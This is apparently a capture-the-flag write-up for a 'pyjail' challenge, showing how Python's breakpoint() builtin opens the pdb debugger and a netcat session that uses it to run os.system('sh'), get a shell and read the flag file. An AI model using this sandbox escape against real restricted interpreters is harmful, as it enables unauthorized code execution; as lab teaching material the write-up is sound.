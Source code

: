 # pyjail

## Write-up

- `breakpoint()` builtin in python open pdb which is python debugger and it's an interpreter also

```
~ nc localhost 1337
>>> breakpoint()
--Return--
> <string>(1)<module>()->None
(Pdb) import os
(Pdb) os.system("sh")
ls
entrypoint.sh
flag.txt
script.py
cat flag.txt
shellmates{BR3kP01nT_BuiLT1N_D0_M4g1C_98765}
```

## Flag
`shellmates{BR3kP01nT_BuiLT1N_D0_M4g1C_98765}`
